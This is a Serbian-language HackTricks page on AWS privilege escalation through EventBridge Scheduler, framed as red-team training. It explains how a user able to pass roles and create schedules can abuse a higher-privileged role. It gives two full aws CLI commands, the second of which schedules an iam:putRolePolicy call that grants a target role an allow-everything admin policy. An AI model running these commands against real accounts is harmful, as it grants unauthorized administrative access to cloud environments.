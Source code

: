 # AWS - EventBridge Scheduler Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## EventBridge Scheduler

EventBridge Scheduler se može koristiti za eskalaciju privilegija zakazivanjem poziva raznim AWS uslugama. Iskorišćavanjem svoje sposobnosti da poziva usluge na zakazanoj osnovi, korisnici sa dovoljnim dozvolama mogu eskalirati privilegije. Evo nekih od ključnih akcija koje EventBridge Scheduler može pokrenuti koristeći šablonske ciljeve:

* Lambda: lambda:InvokeFunction - Pozvati Lambda funkcije prema rasporedu.
* CodeBuild: codebuild:StartBuild - Pokrenuti AWS CodeBuild projekte.
* CodePipeline: codepipeline:StartPipelineExecution - Pokrenuti AWS CodePipeline izvršenja.
* ECS: ecs:RunTask - Pokrenuti ECS zadatke.
* EventBridge: events:PutEvents - Postaviti događaje u EventBridge.
* Inspector: inspector:StartAssessmentRun - Pokrenuti Amazon Inspector procene.
* Kinesis: kinesis:PutRecord - Postaviti zapise u Kinesis tokove.
* Firehose: firehose:PutRecord - Postaviti zapise u Firehose tokove isporuke.
* SageMaker: sagemaker:StartPipelineExecution - Pokrenuti SageMaker izvršenja.
* SNS: sns:Publish - Objaviti poruke na SNS temama.
* SQS: sqs:SendMessage - Slati poruke u SQS redove.
* Step Functions: states:StartExecution - Pokrenuti izvršenja AWS Step Functions.

Ovo su samo neke od šablonskih akcija koje EventBridge Scheduler može izvesti. Međutim, korišćenjem univerzalnih ciljeva, može se pozvati mnogo drugih akcija širom AWS usluga. Univerzalni ciljevi omogućavaju šire API operacije izvan šablonske liste.

Više informacija o EventBridge Scheduler-u u:

{% content-ref url="../aws-services/eventbridgescheduler-enum.md" %}
[eventbridgescheduler-enum.md](../aws-services/eventbridgescheduler-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, (`scheduler:CreateSchedule` | `scheduler:UpdateSchedule`)

Korisnici sa `sts:AssumeRole`, `iam:PassRole`, i `scheduler:CreateSchedule or scheduler:UpdateSchedule` dozvolama mogu eskalirati privilegije koristeći EventBridge Scheduler za pozivanje usluga koristeći ulogu sa višim privilegijama.

Sa ovim dozvolama, napadač može preuzeti ulogu sa povišenim privilegijama i proslediti tu ulogu EventBridge Scheduler-u prilikom kreiranja ili ažuriranja rasporeda. Raspored se može konfigurisati da izvrši bilo koju od prethodno navedenih akcija, kao što su pozivanje Lambda funkcija, pokretanje ECS zadataka, pokretanje CodePipeline izvršenja, ili bilo koja operacija od 270 AWS usluga koje podržava EventBridge Scheduler. Zakazivanjem ovih akcija, napadač bi mogao zloupotrebiti više privilegije za izvođenje neovlašćenih operacija širom AWS usluga. \\

Na primer, mogli bi konfigurisati raspored da pozove Lambda funkciju koja je šablonska akcija:
```bash
aws scheduler create-schedule \
--name MyLambdaSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:lambda:<region>:<account-id>:function:<LambdaFunctionName>",
"RoleArn": "arn:aws:iam::<account-id>:role/<RoleName>"
}'
```
Pored akcija usluga zasnovanih na šablonima, možete koristiti univerzalne ciljeve u EventBridge Scheduler-u da pozovete širok spektar API operacija za mnoge AWS usluge. Univerzalni ciljevi nude fleksibilnost da pozovete gotovo bilo koji API. Jedan primer može biti korišćenje univerzalnih ciljeva dodavanjem "AdminAccessPolicy", koristeći ulogu koja ima "putRolePolicy" politiku:
```bash
aws scheduler create-schedule \
--name GrantAdminToTargetRoleSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:scheduler:::aws-sdk:iam:putRolePolicy",
"RoleArn": "arn:aws:iam::<account-id>:role/RoleWithPutPolicy",
"Input": "{\"RoleName\": \"TargetRole\", \"PolicyName\": \"AdminAccessPolicy\", \"PolicyDocument\": \"{\\\"Version\\\": \\\"2012-10-17\\\", \\\"Statement\\\": [{\\\"Effect\\\": \\\"Allow\\\", \\\"Action\\\": \\\"*\\\", \\\"Resource\\\": \\\"*\\\"}]}\"}"
}'
```
## References

* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html)
* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html)

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
